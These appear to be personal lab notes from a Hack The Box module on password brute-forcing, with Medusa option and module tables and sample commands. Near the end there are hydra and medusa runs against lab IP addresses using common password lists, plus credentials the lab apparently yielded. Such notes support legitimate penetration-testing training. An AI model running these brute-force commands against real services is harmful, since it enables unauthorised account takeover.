 ```bash
AhmaDb0x@htb[/htb]$ medusa [target_options] [credential_options] -M module [module_options]
```
Medusa, a prominent tool in the cybersecurity arsenal, is designed to be a fast, massively parallel, and modular login brute-forcer. Its primary objective is to support a wide array of services that allow remote authentication, enabling penetration testers and security professionals to assess the resilience of login systems against brute-force attacks


| Parameter                  | Usage Example                                                                                                                                                      |
| -------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `-h HOST` or `-H FILE`     | `medusa -h 192.168.1.10 ...` or `medusa -H targets.txt ...`                                                                                                        |
| `-u USERNAME` or `-U FILE` | `medusa -u admin ...` or `medusa -U usernames.txt ...`                                                                                                             |
| `-p PASSWORD` or `-P FILE` | `medusa -p password123 ...` or `medusa -P passwords.txt ...`                                                                                                       |
| `-M MODULE`                | `medusa -M ssh ...`                                                                                                                                                |
| `-m "MODULE_OPTION"`       | `medusa -M http -m "POST /login.php HTTP/1.1\r\nContent-Length: 30\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nusername=^USER^&password=^PASS^" ...` |
| `-t TASKS`                 | `medusa -t 4 ...`                                                                                                                                                  |
| `-f` or `-F`               | `medusa -f ...` or `medusa -F ...`                                                                                                                                 |
| `-n PORT`                  | `medusa -n 2222 ...`                                                                                                                                               |
| `-v LEVEL`                 | `medusa -v 4 ...`                                                                                                                                                  |

### Medusa Modules

| Medusa Module    | Usage Example                                                                                                               |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------- |
| FTP              | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| HTTP             | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP             | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| MySQL            | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |


### Targeting Multiple Web Servers with Basic HTTP Authentication
basic HTTP authentication <>  GET
```bash
AhmaDb0x@htb[/htb]$ medusa -h 94.237.51.14 -n 35390 -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -M http -m GET 
```
```
-M http -m GET
```

### Testing for Empty or Default Passwords
Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```bash
AhmaDb0x@htb[/htb]$ medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```



admin Password: Admin123 [SUCCESS]

satwossh usernaem 


hydra -l satwossh -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://94.237.57.114:55310


satwossh   password: password1


Thomas Smith

